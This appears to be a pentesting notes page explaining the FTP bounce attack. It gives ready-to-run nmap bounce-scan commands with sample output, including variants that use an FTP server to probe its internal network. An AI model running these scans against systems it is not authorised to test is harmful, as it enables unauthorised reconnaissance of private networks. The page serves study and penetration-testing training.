 # FTP Bounce Attack

* a network attack that uses FTP servers to deliver outbound traffic to another device on the network.
  * The attacker uses a `PORT` command to trick the FTP connection into running commands and getting information from a device other than the intended server



<figure><img src="../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Attack

* [nmap.md](nmap.md "mention")

```shell-session
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

```shell-session
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to ftp://anonymous:password@10.10.110.213:21
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
FTP command misalignment detected ... correcting.
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http

<SNIP>
```

```
nmap -b <name>:<pass>@<ftp_server> <victim>
```

```
nmap -Pn -v -p 21,80 -b ftp:ftp@10.2.1.5 127.0.0.1 #Scan ports 21,80 of the FTP
```

```
nmap -v -p 21,22,445,80,443 -b ftp:ftp@10.2.1.5 192.168.0.1/24 #Scan the internal network (of the FTP) ports 21,22,445,80,443
```

## Reference

* https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp/ftp-bounce-attack
